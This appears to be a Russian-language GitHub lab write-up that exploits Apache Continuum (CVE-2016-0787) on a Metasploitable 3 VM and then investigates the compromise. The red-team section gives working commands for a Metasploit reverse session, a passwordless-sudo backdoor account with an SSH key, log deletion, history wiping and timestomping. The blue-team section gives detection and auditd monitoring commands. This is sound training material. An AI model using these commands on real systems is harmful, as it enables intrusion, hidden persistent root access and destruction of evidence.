




# Apache Continuum 1.4.2 — Exploitation & IR Writeup

> **Автор:** Dronard 
> **Дата:** 2026-03-28 
> **Цель:** Metasploitable 3 (Ubuntu 14.04) — 192.168.56.3 
> **Уязвимость:** CVE-2016-0787 — Apache Continuum Arbitrary Command Execution 
> **Роль:** Red Team / Blue Team Simulation 
> **Контакты:** [github.com/Dronard](https://github.com/Dronard)

---

##  Red Team: Атака и закрепление

### 1. Разведка
```bash
# Сканирование портов и версий

sudo nmap -sS -p- --min-rate 1000 192.168.56.3
sudo nmap -sV -p 80,8080,8180,3306 192.168.56.3

# Поиск эксплойтов

searchsploit "apache continuum" 1.4.2

# Результат: linux/remote/39945.rb (Metasploit module)
```
### 2. Эксплуатация (Metasploit)
```bash
msfconsole
search apache_continuum_cmd_exec
use exploit/linux/http/apache_continuum_cmd_exec

set RHOSTS 192.168.56.3
set RPORT 8080
set LHOST 192.168.56.1
set LPORT 4444
run

# Получена сессия Meterpreter с правами root

meterpreter > shell
$ whoami
root
```
### 3. Закрепление доступа
```bash
# Создание бэкдор-аккаунта
useradd -m -s /bin/bash -G sudo usr-sync

# Настройка sudo без пароля

echo "usr-sync ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/usr-sync
chmod 440 /etc/sudoers.d/usr-sync

# Настройка SSH-ключа

mkdir -p /home/usr-sync/.ssh
chown -R usr-sync:usr-sync /home/usr-sync/.ssh
chmod 700 /home/usr-sync/.ssh
touch /home/usr-sync/.ssh/authorized_keys
chmod 600 /home/usr-sync/.ssh/authorized_keys

# Добавление публичного ключа (на атакующей машине)

ssh-keygen -t ed25519 -C "usr-sync@back" -f ~/.ssh/id_ed25519 -N ""
cat ~/.ssh/id_ed25519.pub >> /home/usr-sync/.ssh/authorized_keys

# Проверка доступа

ssh -i ~/.ssh/id_ed25519 usr-sync@192.168.56.3
sudo whoami  # root
```
### 4. Очистка следов (OpSec)
```bash
# Точечная очистка логов

sed -i '/usr-sync/d' /var/log/auth.log`

# Очистка истории команд

echo "" > /root/.bash_history
echo "" > /home/usr-sync/.bash_history

# Маскировка временных меток (timestomping)

touch -t 202401150330 /home/usr-sync/.ssh/authorized_keys /etc/sudoers.d/usr-sync
```
## Blue Team: Обнаружение и расследование

### 1. Поиск подозрительных аккаунтов
Ключевые выводы
```bash
# Пользователи с UID >= 1000 и активной оболочкой

awk -F: '$3 >= 1000 && $7 ~ /(bash|sh)$/ {print $1, $3, $6, $7}' /etc/passwd
```
IoC: usr-sync 1127 /home/usr-sync /bin/bash — имя имитирует сервис, но имеет shell-доступ.

### 2. Проверка SSH-конфигурации
```bash
ls -la /home/usr-sync/.ssh/
cat /home/usr-sync/.ssh/authorized_keys
```
IoC:
Файл authorized_keys существует
Комментарий ключа: usr-sync@back — маркер бэкдора

### 3. Аудит привилегий sudo
```bash
grep -r "usr-sync" /etc/sudoers /etc/sudoers.d/ 2>/dev/null
```
IoC: usr-sync ALL=(ALL) NOPASSWD:ALL — полный root-доступ без пароля.

### 4. Анализ метаданных (разоблачение timestomping)
```bash
stat /home/usr-sync/.ssh/authorized_keys /etc/sudoers.d/usr-sync
```
Критический артефакт:
File: authorized_keys
Modify: 2024-01-15 03:30:00 <- подделано (mtime)
Change: 2026-03-27 15:51:00 <- реальное время (ctime)
Вывод: Расхождение mtime/ctime доказывает подделку временных меток.

### 5. Проверка истории и логов
```bash
# История команд

wc -l /home/usr-sync/.bash_history  # 0 строк — намеренная очистка

# Логи аутентификации

grep "usr-sync" /var/log/auth.log   # пусто — логи очищены (sed)
```
Вывод: Отсутствие записей при наличии настроенного бэкдора — индикатор компрометации.

### 6. Поиск горизонтальной эскалации
```bash
# Поиск дубликатов ключа в других аккаунтах

grep -r "AAAAC3Nza
C1lZDI1NTE5AAAAIIh/jpNRg8HINxKIbsAZiALl6zZ6LCFGY2fDvOK0zdoB" /home/*/.*ssh/authorized_keys 2>/dev/null
```
Результат: Ключ уникален для usr-sync — атака точечная, без распространения.

### Сводная таблица IoC
| Индикатор | Место | Метод детекта | Критичность |
|-----------|-------|---------------|-------------|
| Бэкдор-аккаунт с shell | `/etc/passwd` | `awk`-фильтр | Высокая |
| SSH-ключ с меткой `@back` | `authorized_keys` | `cat` + `grep` | Высокая |
| Sudo NOPASSWD в отдельном файле | `/etc/sudoers.d/` | `grep -r` | Высокая |
| Расхождение mtime/ctime | Ключевые файлы | `stat` | Высокая |
| Пустой `.bash_history` | Домашняя директория | `wc -l` | Средняя |
| Отсутствие записей в auth.log | `/var/log/auth.log` | Логический анализ | Средняя |

### Мониторинг (проактивная защита)
```bash
# Auditd: отслеживание изменений в passwd и SSH-ключах
auditctl -w /etc/passwd -p wa -k user_changes
auditctl -w /home/*/.ssh/authorized_keys -p wa -k ssh_key_changes

# Ежедневная проверка расхождений mtime/ctime
find /home -name "authorized_keys" -exec stat -c "%n|%Y|%Z" {} \; | \
  awk -F'|' '$2 != $3 {print "ALERT: timestomping suspected:", $1}'
```
### Ключевые выводы 
|Для RedTeam|Для Blue Team|
|-----------|-------------|
|touch меняет только mtime, ctime остаётся актуальным|stat информативнее cat при поиске подделок|
|Очистка логов сама по себе — индикатор|Отсутствие записей при наличии артефактов = подозрительно|
|Автоматизация оставляет следы (интервалы создания файлов)|Регулярный аудит /etc/sudoers.d/ обнаруживает бэкдоры|
|Минимализм ≠ невидимость: даже один аккаунт оставляет артефакты|Контекст важнее сигнатур: имя + ключ + права = паттерн атаки|

## Скриншоты ключевых моментов

| Этап | Описание | Скриншот |
|------|----------|----------|
| Эксплуатация уязвимости | Запуск Metasploit модуля и получение Meterpreter сессии |  |
| Закрепление доступа | Создание бэкдор-аккаунта и настройка SSH-ключа с правильными правами |  |
| Timestomping | Подделка временных меток (mtime ≠ ctime) |  |
| Обнаружение (Blue Team) | Поиск аномалий: UID >= 1000, расхождение меток, пустая история |  |

Автор: Dronard | 2026-03-28


